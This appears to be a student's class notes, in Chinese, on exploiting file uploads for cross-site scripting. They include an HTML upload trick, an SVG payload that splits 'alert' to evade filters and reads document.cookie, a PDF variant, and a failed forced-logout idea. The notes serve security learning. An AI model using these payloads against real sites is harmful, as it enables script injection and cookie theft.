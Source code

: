 

### HTML类型+SVG类型

#### HTML

```
"C:\Users\Gu\Desktop\第一节课\第一节课\第一节课\html类型+svg类型-xss.docx"
```

上传一张图片，改为1.html,在内容中加 <script>alert(111)</script>,发送后访问地址，有些要删除boundary才可以绕过。

#### SVG类型

```
"C:\Users\Gu\Desktop\第一节课\第一节课\第一节课\html类型+svg类型-xss.docx"
```

上传svg文件，用下面的POC百分之80可以绕过：



```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      javascript:top[`al`+`ert`](document.cookie);
   </script>
</svg>

```

#### 低危的pdf-xss也是同上

```
"C:\Users\Gu\Desktop\第一节课\第一节课\第一节课\xss.pdf"
```

笔者认为是前端验证，不严格导致的

### 恶意登出（未成功）

具体原理：

将登出的数据包拼接到上传的图像参数上，当用户访问时，会自动登出

```
"C:\Users\Gu\Desktop\第一节课\第一节课\第一节课\恶意退出登录.docx"
```

![image-20250321093020609](C:\Users\Gu\AppData\Roaming\Typora\typora-user-images\image-20250321093020609.png)

![image-20250321093023997](C:\Users\Gu\AppData\Roaming\Typora\typora-user-images\image-20250321093023997.png)

![image-20250321093026759](C:\Users\Gu\AppData\Roaming\Typora\typora-user-images\image-20250321093026759.png)
